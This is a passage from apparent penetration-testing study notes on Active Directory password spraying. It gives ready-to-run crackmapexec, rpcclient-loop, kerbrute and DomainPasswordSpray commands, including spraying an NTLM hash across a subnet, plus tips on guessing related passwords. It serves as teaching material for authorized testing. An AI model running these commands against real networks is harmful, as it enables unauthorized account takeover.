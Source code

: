 We will check over 48,000 usernames in 12 seconds. If *Kerberos event logging* is enabled in Group Policy, this will generate event ID 4768.

### Credentialed Enumeration

With credentials we can enumerate with any of the previous tools:
```console
zero@pio$ sudo crackmapexec smb <IP> -u <VALID USER> -p <VALID PASSWORD> --users
```

## From Linux 

With a userlist, now we can start the password spraying. **rpcclient** can be useful for performing the attack from Linux. Take in mind that a valid login is not immediately response **Authority Name**
. We can filter out by grepping for **Authority**:
```bash
for u in $(cat <USERLIST>);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <IP> | grep Authority; done
```

We can also use **Kerbrute**:
```console
zero@pio$ kerbrute passwordspray -d <DOMAIN> --dc <IP> <USERLIST> <PASSWORD>
```

With **CrackMapExec**, we must `grep +` to only show valid users:
```console
zero@pio$ sudo crackmapexec smb <IP> -u <USERLIST> -p <PASSWORD> | grep +
```

After getting a valid credentials, we can try it:
```console
zero@pio$ sudo crackmapexec smb <IP> -u <USER> -p <PASSWORD>
```

This is not only possible with domain user accounts. If we obtain administrative access and the password (NTLM or cleartext), is common to see password reuse of administrative accounts. CrackMapExec will help us with this attack. Take in mind that if we find a password like **$desktop%@admin123**, it is possible to exist the password **$server%@admin123**.

If we only has the NTLM hash for the local administrator, we can spray it across the subnet. The following command will try to login as local administrator. The `--local-auth` will log in one time in each machine (to not block administrative account for the domain):
```console
zero@pio$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H <HASH> | grep +
```

## From Windows 

In Windows we can use the tool [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray). If the host is domain joined we can skip the flag `-UserList` and let the tool generate the list:
```console
PS C:\zeropio> Import-Module .\DomainPasswordSpray.ps1
PS C:\zeropio> Invoke-DomainPasswordSpray -Password <PASSWORD> -OutFile <OUTPUT FILE> -ErrorAction SilentlyContinue
```
